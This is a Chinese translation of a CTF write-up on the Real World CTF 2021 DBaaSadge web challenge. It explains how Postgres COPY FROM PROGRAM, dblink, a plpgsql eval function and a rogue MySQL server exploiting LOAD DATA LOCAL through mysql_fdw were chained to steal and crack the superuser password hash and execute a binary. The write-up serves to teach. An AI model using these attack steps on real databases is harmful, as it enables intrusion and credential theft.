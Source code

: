 # DBA asedge—向上写

> 原文：<https://infosecwriteups.com/dbaasadge-writeup-61ebcdbe4357?source=collection_archive---------2----------------------->

![](img/b7fb396f7f953a5cfdce84a8689f563d.png)

## CTF 现实世界 2021

今年我和索克劳德队在真实世界 CTF 比赛，我们获得了第二名。我参与了解决 DBaaSadge，一个网络挑战，我很高兴把我的文章作为一个很好的知识来源分享给其他人。

如果您想了解自己的设置，您可以在这里找到所有的挑战文件。

# 挑战

在挑战中，我们得到了一个 Dockerfile 文件，它建立了一个 Postgres 10 数据库，有两个扩展: [dblink](https://www.postgresql.org/docs/10/dblink.html) 和 [mysql_fdw](https://github.com/EnterpriseDB/mysql_fdw) 。第一个是 Postgres 本身的扩展，允许用户链接和连接 Postgres 数据库。第二个扩展实现了同样的功能，但是使用 MySQL 数据库。

为了与数据库对话，我们可以使用 HTTP 请求来执行 SQL 语句并返回输出。在下面的代码中，*index.php*，你可以清楚地看到其中的逻辑。

挑战的 index.php

查看逻辑，我们可以看到 SQL 命令被限制在 100 个字符以内，由 Postgres 数据库中的用户 *realuser* 执行。此外，数据库包含超级用户 postgres，我们可以在提供的 Dockerfile 文件中看到。最后，服务器包含一个 *getflag* 二进制文件，我们需要执行它来接收这个标志。

该片段显示了 Dockerfile 文件的一部分

为了理解解决挑战和最终利用的途径，让我们以相反的顺序开始，考虑如何执行任意代码。

# 远程代码执行

从测试任意代码开始，为了更容易使用，我们在本地机器上设置了挑战，并将超级用户密码改为*密码*。此外，我们直接在服务器上执行 SQL 命令，而不是使用 HTTP 请求来避免 100 个字符的限制。这使得调试更加容易。

接下来，我们查看 Postgres 文档，发现 [COPY 语句](https://www.postgresql.org/docs/10/sql-copy.html)可以通过提供关键字 PROGRAM 来执行命令。所以，我们来试试吧。

通过“从程序复制”，用户可以在 Postgresql 中执行外壳代码

我们可以看到，我们首先创建了一个表，在这个表中我们复制了 shell 命令 *id* 的输出。之后，我们可以通过从 cmd_table 中选择数据来查看结果。这很容易，并让我们从数据库内部执行任意代码。

不幸的是，在数据库内部，程序选项只对超级用户可用。因此，下一步是考虑如何成为超级用户。

回想一下，我们启用了扩展 dblink。使用这个扩展，我们可以通过指定主机、数据库、用户和密码来连接 Postgres 数据库。

```
SELECT * FROM dblink ('host=127.0.0.1 dbname=postgres user=postgres password=password', 'COPY cmd_table FROM PROGRAM ''/readflag'';') AS a (b text);
```

在上面的 SQL 语句中，我们可以看到，如果我们知道超级用户 postgres 的密码，我们也可以将我们的本地机器和当前数据库 postgres 连接起来。此外，我们执行 readflag 二进制文件。

在执行 readflag 二进制文件之前，我们有两个限制。第一，我们不知道密码。第二，语句长度超过 100 个字符。

# 长度限制旁路

如果执行复杂的 SQL 语句，100 个字符并不多。因此，我们寻找绕过这一限制的方法。幸运的是，这种绕过是通过所谓的 eval 方法实现的:我们将长有效载荷存储到数据库中，并使用 eval 函数执行它。

首先，让我们看看我们创建的 eval 函数。

```
CREATE FUNCTION eval_func (i TEXT, out o TEXT) AS $$ BEGIN execute i INTO o; END $$ LANGUAGE plpgsql
```

创建的函数接受输入文本 I，执行它，并返回输出 o——这正是我们对 eval 的期望。这个 eval 现在可以用来执行任意长度的 SQL 语句，如下例所示。

使用 eval 表和函数，我们可以执行任意长度的 SQL 语句。

如前所述，我们将命令的所有部分插入到 eval 表中，并使用连接的命令字符串作为输入来调用 eval 函数。

这样，只有超级用户的密码丢失。

# 密码文件

窃取超级用户密码是挑战的主要部分，是基于 MySQL 协议中一个非常巧妙的设计缺陷。

MySQL 包含一个名为 [LOAD DATA](https://dev.mysql.com/doc/refman/8.0/en/load-data.html) 的函数，允许用户将数据从一个文件加载到一个表中。然而，它也允许客户端提供一个本地文件[，如果他指定了本地关键字](https://dev.mysql.com/doc/refman/8.0/en/load-data-local-security.html)。由于 SQL 语句解析发生在服务器端，恶意的 MySQL 服务器可以随时告诉连接的客户端传输任何文件。

对于 mysql_fdw，Postgres 服务器处于作为 mysql 客户端可能受到该设计缺陷攻击的情况。例如，通过下面的 SQL 语句，我们可以将 Postgres 服务器连接到 MySQL 服务器，无论恶意与否。

将 Postgres 服务器连接到 MySQL 的 SQL 语句。

幸运的是，利用上述缺陷的恶意服务器已经在 GitHub 上实现了[。服务器从我们指定路径的客户端下载任何文件。记住 Postgres 密码文件的路径，这可以为我们提供超级用户的密码散列。事实上，要使用恶意服务器获取散列文件，公共可用服务器上的以下行(加上前面提到的 SQL 语句)就足够了:](https://github.com/jib1337/Rogue-MySQL-Server)

```
python RogueSQL.py -f "/var/lib/postgresql/10/main/global/1260"
```

Postgres 的密码文件包含所有密码的哈希。

现在，知道了 hash `a4824021a91d43cfeede15fdfbf77382f`，我们使用 hashcat 来快速破解它。由于它仅由五个随机字符组成，破解只需几秒钟。

![](img/1c553bef1f58bfc4390a4dc682042b23.png)

Hashcat 输出密码

# 最后的利用

最后，我们把所有的部分组合在一起，得到了这面旗帜。让我总结一下最后的利用:

1.  启动一个公开的恶意 MySql 服务器，从每个连接的客户端请求密码文件。
2.  向服务器发送 SQL，以 HTTP 请求的形式连接到恶意的 MySql 服务器。
3.  从密码文件中取出散列，用 hashcat 破解它。
4.  使用密码伪造一个 SQL 语句，通过 dblink 以 postgres 用户的身份执行 *readflag* 。
5.  将语句分成几部分，并使用 eval 函数绕过 100 个字符的限制。
6.  获取标志:**rw CTF { pop _ cat _ says _ P1 ea5e _ upd4t 3 _ youR _ libmysql client _ kekW }**

很艰难，不是吗？下面你可以看到我最后的 python 漏洞，它执行除了恶意的 MySQL 服务器和 hashcat 之外的所有部分。

# 摘要

重新思考挑战显示了挑战的各个阶段，这是我们在 CTF 期间发现的。我个人学到了很多关于 SQL 服务器的知识，并喜欢编写最终的漏洞利用。感谢挑战作者这么好的挑战！